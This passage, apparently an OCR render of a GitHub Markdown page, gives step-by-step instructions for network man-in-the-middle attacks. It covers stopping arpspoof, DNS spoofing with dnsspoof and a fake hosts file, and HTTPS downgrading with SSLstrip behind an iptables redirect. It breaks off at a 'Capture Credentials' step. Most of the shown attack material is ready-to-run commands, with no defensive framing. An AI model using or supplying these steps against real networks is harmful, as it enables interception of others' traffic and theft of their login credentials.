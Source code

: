 - Use tools like Wireshark or tcpdump to capture traffic.
5. **Stop the Attack**:

- Press `Ctrl+C` to stop arpspoof.

---

## 4\. **dnsspoof**

dnsspoof is a tool for DNS spoofing.

### Steps:

1. **Installation**:

```
sudo apt-get install dsniff
```
2. **Create a Fake DNS File**:

- Create a file (e.g., `dns.txt`) with entries like:

```
192.168.1.100 www.example.com
```
3. **Start dnsspoof**:

```
dnsspoof -i <interface> -f dns.txt
```
4. **Capture Traffic**:

- Redirect traffic to your machine and capture it.
5. **Stop the Attack**:

- Press `Ctrl+C` to stop dnsspoof.

---

## 5\. **SSLstrip**

SSLstrip is a tool for downgrading HTTPS to HTTP.

### Steps:

1. **Installation**:

```
sudo apt-get install sslstrip
```
2. **Set Up IP Forwarding**:

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```
3. **Start SSLstrip**:

```
sslstrip -l 8080
```
4. **Capture Credentials**:
